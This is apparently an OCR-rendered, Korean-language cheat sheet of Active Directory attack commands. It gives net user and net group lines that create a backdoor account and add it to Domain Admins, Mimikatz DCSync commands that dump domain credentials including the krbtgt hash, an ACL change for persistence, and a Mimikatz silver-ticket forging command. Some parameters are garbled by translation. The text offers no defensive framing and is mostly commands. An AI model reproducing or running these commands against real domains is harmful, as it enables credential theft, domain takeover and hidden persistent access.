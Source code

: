 <div class="content-ad"></div>

```js
net user <username> <password> /add
net group "Domain Admins" <username> /add
```

# 도메인 자격 증명 덤프

- Mimikatz를 사용하여 DCSync 실행.

```js
mimikatz.exe "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

<div class="content-ad"></div>

2. 덤프된 자격 증명은 안전하게 저장하세요.

# 권한 상승 및 지속성

- 백도어 계정 생성을 통해 액세스 유지

```js
net user <username> <password> /add
```

<div class="content-ad"></div>

2. 보안 설명자를 수정하여 지속성을 확보합니다.

```js
Set-ACL -경로 "AD:<경로>" -ACLObject $acl
```

# 실버 티켓

- 서비스 계정 해시를 사용하여 실버 티켓을 생성합니다.

<div class="content-ad"></div>

```js
mimikatz.exe "kerberos::golden /domain:<도메인> /sid:<도메인_SID> /target:<대상_서비스> /rc4:<서비스_계정_해시> /user:<대상_사용자> /service:<서비스_이름> /target:<대상_FQDN>" "exit"
```

2. 도메인 컨트롤러와 통신하지 않고 서비스에 인증합니다.

# 골든 티켓

- KRBTGT 계정 해시를 추출합니다.

<div class="content-ad"></div>

```js
mimikatz.exe "lsadump::dcsync /domain:<도메인> /user:krbtgt" "exit"
```
